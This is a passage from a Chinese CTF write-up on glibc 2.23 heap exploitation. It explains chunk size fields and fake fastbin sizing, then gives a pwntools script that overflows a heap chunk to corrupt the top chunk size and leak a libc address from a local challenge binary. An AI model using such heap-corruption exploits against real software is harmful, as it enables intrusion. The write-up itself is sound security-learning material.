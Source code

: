 ### malloc 重点
在 clby 师傅讲解之后，有一个点是我忘记了的，size 域存着的 size 并不是用户数据的大小，而是包括 prev_size 和 size 域的整个 chunk 的大小（<font style="background-color:#FBDE28;">不包括下一个 chunk 的 prev_size 域</font>）

这里 malloc 申请的是 0x70 大小的，所以实际申请到的是 0x80 大小的 chunk

而伪造的 fakefastchunk 的 size 是 0x7f，实际用户内存应该是 0x60（加上下一个 chunk 的 prev_size 的话就 0x68）

所以应该是申请 0x59-0x68（注意 chunk 对齐 0x10，0x61-0x68 是下一个 chunk的 prev_size 域）大小的内存才可以申请出来这个 fakefastchunk

最终 exp：

```python
#!/usr/bin/env python3

from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
link=process("./ocd")
libc=ELF('./glibc/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def gdb_attach():
	gdb.attach(link,"set solib-search-path /home/pwner/FocusingCTF/glibc/2.23-0ubuntu11.3_amd64/")
	pause()

def addedit(length,content):
	link.recvuntil(b'choice:')
	link.sendline(b'1')
	link.recvuntil(b'content:')
	link.send(str(length))
	link.recvuntil(b'content:')
	link.send(content)

def fwriteptr():
	link.recvuntil(b'choice:')
	link.sendline(b'2')

def freeptr():
	link.recvuntil(b'choice:')
	link.sendline(b'3')

def editptr(length,content):
	link.recvuntil(b'choice:')
	link.sendline(b'4')
	link.recvuntil(b"content:")
	link.send(str(length))
	link.recvuntil(b"content:")
	link.send(content)

link.recvuntil(b'name.')
link.send(b'garhin')

payload=b'a'*0x28+p64(0xfd1)
addedit(0x28,b'a')
editptr(0x30,payload)
addedit(0xfdf,b'a')

# gdb_attach()

addedit(0x60,b'a')
fwriteptr()

libc_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))+0x27
print(hex(libc_addr))
```